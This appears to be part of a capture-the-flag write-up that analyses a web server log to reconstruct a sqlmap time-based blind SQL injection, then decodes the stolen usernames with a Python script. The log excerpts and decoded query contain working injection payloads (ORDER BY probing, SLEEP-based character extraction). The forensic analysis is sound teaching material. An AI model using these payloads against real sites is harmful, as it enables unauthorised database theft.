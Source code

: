 ### SQL Log

The last post on Chance's blog gives us a log file of a site that Chance runs. Considering the earlier messages on Twitter, these logs are probably for the Secret Chat site. The logs look like this:

```shell
172.21.0.4 - - [14/Mar/2023:00:29:35 +0000] "GET /?user=%27%20ORDER%20BY%201--%20-&pass= HTTP/1.1" 200 224 "-" "Mozilla/5.0 (X11; U; Linux i686; es-ES; rv:1.8.1.2) Gecko/20070220 Firefox/2.0.0.2"
172.21.0.4 - - [14/Mar/2023:00:29:35 +0000] "GET /?user=%27%20ORDER%20BY%204608--%20-&pass= HTTP/1.1" 200 458 "-" "Mozilla/5.0 (X11; U; Linux i686; es-ES; rv:1.8.1.2) Gecko/20070220 Firefox/2.0.0.2"
172.21.0.4 - - [14/Mar/2023:00:29:35 +0000] "GET /?user=%27%20ORDER%20BY%2010--%20-&pass= HTTP/1.1" 200 458 "-" "Mozilla/5.0 (X11; U; Linux i686; es-ES; rv:1.8.1.2) Gecko/20070220 Firefox/2.0.0.2"
172.21.0.4 - - [14/Mar/2023:00:29:35 +0000] "GET /?user=%27%20ORDER%20BY%206--%20-&pass= HTTP/1.1" 200 458 "-" "Mozilla/5.0 (X11; U; Linux i686; es-ES; rv:1.8.1.2) Gecko/20070220 Firefox/2.0.0.2"
```

This indicates that a SQL Injection was carried out. In fact, this challenge was actually generated from a SQLmap attack. Looking towards the end of the log, we find that a timing attack was carried out:

```shell
172.21.0.4 - - [14/Mar/2023:00:35:05 +0000] "GET /?user=%27%20AND%20
%28SELECT%207410%20FROM%20%28SELECT%28SLEEP%281-%28IF%28ORD%28MID%28
%28SELECT%20IFNULL%28CAST%28username%20AS%20NCHAR%29%2C0x20%29%20FROM
%20admin_site.users%20ORDER%20BY%20id%20LIMIT%201%2C1%29%2C8%2C1%29%29
%3E113%2C0%2C1%29%29%29%29%29OEDl%29%20AND%20%27ogSF%27%3D%
```

Cleaning this up and extracting the sql query we get:

```sql
AND (SELECT 7410 FROM (SELECT(SLEEP(1-(IF(ORD(MID((SELECT
IFNULL(CAST(username AS NCHAR),0x20) FROM admin_site.users
ORDER BY id LIMIT 1,1),8,1))>113,0,1)))))OEDl) AND 'ogSF'=%
```

This query is checking if the the 8th character of the username is greater than 113. If it is, it will sleep for 1 second. Decoding more of the logs, we see that the attack checks if a character is greater than a number. Then, it decreases that number until the character is found. After that, the attack confirms if its guess is correct by checking if it not equal to the character. By looking for any != signs in the logs, we can find the stolen information:

```python
from urllib.parse import unquote

with open('access.log', 'r') as f:
    lines = f.readlines()

decoded_data = ""
for line in lines:
    request_part = line.split(' ')[6]
    decoded_request = unquote(request_part)
    char_index = decoded_request.find('!=')
    if char_index != -1:
        temp = decoded_request[char_index+2:char_index+5]
        if(temp[-1] == ','):
            decoded_data += chr(int(temp[:-1]))
        else:
            decoded_data += chr(int(temp))
print(decoded_data)
```
